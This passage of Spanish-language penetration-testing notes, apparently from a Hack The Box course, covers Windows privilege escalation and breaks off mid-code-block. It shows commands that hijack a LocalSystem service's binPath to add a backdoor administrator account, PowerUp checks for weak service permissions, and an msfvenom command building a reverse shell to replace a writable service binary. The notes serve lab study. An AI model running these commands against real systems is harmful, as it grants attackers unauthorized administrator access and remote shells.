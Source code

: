 - Identificamos un servicio que corra como system
	```powershell
	# en el ejemplo ponen este
	sc.exe qc AppReadiness
	# pero podemos buscar servicios
	Get-WmiObject win32_service | Where-Object { $_.StartName -eq "LocalSystem" } | Select-Object Name, DisplayName, StartName
	# y después revisar individualmente
	sc.exe qc <nombre_servicio>
	# Salida esperada: 
	SERVICE_START_NAME : LocalSystem
	```
- Modificamos la ruta del binario del servicio
	```powershell
	sc.exe config AppReadiness binPath= "cmd /c net user an0nio Password123! /add & net localgroup Administrators an0nio /add"
	```
- Iniciamos el servicio (fallará, pero ejecuta el comando)
	```powershell
	sc.exe start AppReadiness
	```
## Atacando el sistema operativo
### UAC

TODO [htb](https://academy.hackthebox.com/module/67/section/626)
### Weak permissions - PowerUp
-  Al ejecutar
	```powershell
	Invoke-AllChecks
	```
	podemos revisar la parte de check, para ver que tipo de permiso débil podemos explotar
- Algunos falsos positivos se dan cuando en la salida nos muestra que el `Modifiable File` está en `C:\`
- Debemos tener en cuenta que siempre que consigamos realizar alguna de las aacciones, debemos poder iniciar/reiniciar el servicio de algún modo (o se debe iniciar/reiniciar periódicamente)
#### Reemplazando de binario de servicio - `Modifiable Service Files`
- En `Invoke-AllChecks` aparece `Check` como:
	```
	Check:         Modifiable Service Files
	```
- Podemos encontrarlos al correr el siguiente script de `PowerUp`
	```powershell
	Get-ModifiableServiceFile
	....
	ServiceName                     : SecurityService
	Path                            : "C:\Program Files (x86)\PCProtect\SecurityService.exe"
	```
- Con la salida obtenida, comprobamos que tenemos permisos de escritura sobre el binario con `icacls` y creamos una revshell con `msfvenom`
	```bash
	msfvenom -p windows/x64/shell_reverse_tcp LHOST=$vpnip LPORT=5555 -f exe -o revshell.exe
	```
- Tras crear el archivo lo llevamos a la ruta modificable
	```powershell